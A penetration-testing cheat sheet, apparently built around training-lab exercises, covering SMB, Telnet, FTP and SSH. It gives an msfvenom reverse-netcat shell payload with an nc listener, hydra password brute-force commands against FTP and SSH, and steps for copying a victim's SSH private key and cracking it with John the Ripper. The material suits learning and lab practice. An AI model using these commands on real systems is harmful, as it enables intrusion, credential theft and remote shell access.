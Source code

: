 # Network Services

## SMB - Server Message Block Protocol -  
[SMB](https://searchnetworking.techtarget.com/definition/Server-Message-Block-Protocol) is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network.   

### Enumerating SMB
- Port Scanning
    nmap 
- Enum4Linux
    `enum4linux [options] [ip]`  
    `-U` get userlist  
    `-M` get machine list  
    `-N` get namelist dump (different from -U and-M)  
    `-S` get sharelist  
    `-P` get password policy information  
    `-G` get group and member list  
    `-a` all of the above (full basic enumeration)  

### Exploiting SMB
While there are vulnerabilities such as [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/) that can allow remote code execution by exploiting SMB, you're more likely to encounter a situation where the best way into a system is due to misconfigurations in the system.  
- SMBClient
    `smbclient //[IP]/[SHARE]`  
    `-U [name]` : to specify the user  
    `-p [port]` : to specify the port  

## Telnet
Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.  
`telnet [ip] [port]`  

### Exploiting Telnet
- https://www.cvedetails.com/
- https://cve.mitre.org/  
However, you're far more likely to find a misconfiguration in how telnet has been configured or is operating that will allow you to exploit it.  
`sudo tcpdump ip proto \\icmp -i tun0`  
`"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"`  
`"nc -lvp [listening port]"`  

## FTP - File Transfer Protocol -
FTP is a protocol used to allow remote transfer of files over a network.  
A typical FTP session operates using two channels:
- a command (sometimes called the control) channel
- a data channel.  

The FTP server may support either Active or Passive connections, or both.  
- In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it. 
- In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it.   

### Exploiting FTP
#### hydra
`hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp`  
`hydra` Runs the hydra tool  
`-t 4`  Number of parallel connections per target    
`-l [user]` Points to the user who's account you're trying to compromise  
`-P [path to dictionary]`   Points to the file containing the list of possible passwords  
`-vV`   Sets verbose mode to very verbose, shows the login+pass combination for each attempt  
`[machine IP]`  The IP address of the target machine  
`ftp / protocol`    Sets the protocol  

## SSH
### Exploiting SSH
#### Crack SSH Password with hydra  
`hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ssh`  

#### Crack SSH Private Key with John the Ripper
SSH Key-Based Autherntication
1. RSA-Private-key is in .ssh derectory. (id_rsa)
```
victim@target:~/.ssh$ ls -la

total 16
drwx------ 2 nullbyte nullbyte 4096 2019-06-19 13:49 .
drwxr-xr-x 3 nullbyte nullbyte 4096 2019-06-19 13:46 ..
-rw------- 1 nullbyte nullbyte 1743 2019-06-19 13:49 id_rsa
-rw-r--r-- 1 nullbyte nullbyte  405 2019-06-19 13:49 id_rsa.pub
```  
2. `cat id_rsa` and copy, `nano victim_rsa` and paste.
3. Crack the Private Key.  
    `$ python3 /usr/share/john/ssh2john.py victim_rsa > rsa.hash`  
    `$ john --wordlist=/usr/share/wordlists/rockyou.txt rsa.hash`
    <details>
    ```
    $ john --wordlist=/usr/share/wordlists/rockyou.txt rsa.hash
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Press 'q' or Ctrl-C to abort, almost any other key for status
    beeswax          (id_rsa)
    1g 0:00:00:00 DONE (2023-07-27 15:52) 16.66g/s 1378Kp/s 1378Kc/s 1378KC/s beeswax
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed.
    ```
    </details>  
    `$ john --show rsa.hash`  
4. SSH into the Target.
    `$ chmod 600 victim_rsa`  
    `$ ssh -i victim_rsa victim@<TARGET_IP>`  
    Enter passphrase. (in this case "beeswax")  






